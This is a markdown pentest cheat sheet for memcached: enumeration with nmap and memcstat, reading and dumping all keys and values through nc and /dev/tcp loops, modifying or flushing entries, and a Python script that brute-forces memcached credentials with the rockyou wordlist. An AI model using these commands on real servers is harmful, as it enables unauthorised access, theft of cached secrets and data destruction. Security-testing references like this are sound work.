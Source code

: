 ## Connecting
```
telnet localhost 11211
```

## Information gathering
```
nmap -p 11211 --script memcached-info
```
```
memcstat --servers=127.0.0.1
```

## Read value
```
memccat --servers=192.64.38.3 --username=user --password=pass flag
```
```
$ nc localhost 112111

get password
VALUE password 0 6
3dw4rd
END
```

## Key information and dump values
```
> version

> stats items
STAT items:3:number 1
STAT items:3:age 498
STAT items:22:number 1
STAT items:22:age 498
END

> stats cachedump <stab-id> <limit>
> stats cachedump 3 100
ITEM views.decorators.cache.cache_header..cc7d9 [6 b; 1256056128 s]
END
```

## Increment decrement
```
> incr <id> 1
> decr <id> 1
```

## Set new entry
```
> set phone 0 60 9
> 123456789
```

## Modify value
```
> replace <key> 0 0 2
> <new-value>
```
```
> prepend address 0 0 6
> house
```
```
append address 0 0 6
,73301
```

## Delete
```
> delete old_address
```
```
> flush_all 30
```
invalidate all keys after 30 s

## Dump all keys
```
memcdump --verbose --debug --servers=127.0.0.1 | tee keys.lst
```

## Dump all key-values
```
memcached-tool localhost:11211 dump | less
```
```
while read -r key; do
    [ -f "$key" ] || echo "get $key" | nc localhost 11211 > "$key.dump";
done < <(memcdump --server localhost)
```

```
memcdump --servers=localhost | xargs -L1 -I% sh -c 'echo "get %" | nc localhost 11211'
```

```
function memcmd() {
  exec {memcache}<>/dev/tcp/localhost/11211
  printf "%s\n%s\n" "$*" quit >&${memcache}
  cat <&${memcache}
}
```

### 1.4.31 and above
```
memcmd lru_crawler metadump all
```

### 1.4.30 and below
```
memcmd stats items
memcmd stats cachedump 1 0
```

```
for id in $(memcmd stats items | grep -o ":[0-9]\+:" | tr -d : | sort -nu); do
    memcmd stats cachedump $id 0
done
```

## Libraries
- Python: https://github.com/abstatic/python-memcached-stats

## Bruteforce
```python
#!/usr/bin/python3
import subprocess

dictionary=open("/usr/share/wordlists/rockyou.txt")
for pwd in dictionary:
    out=subprocess.getoutput('memcstat --servers=192.64.38.3 --username=student --password='+pwd)
    if len(out)>0:
        print(out)
        print("PASSWORD: "+pwd)
        break
```
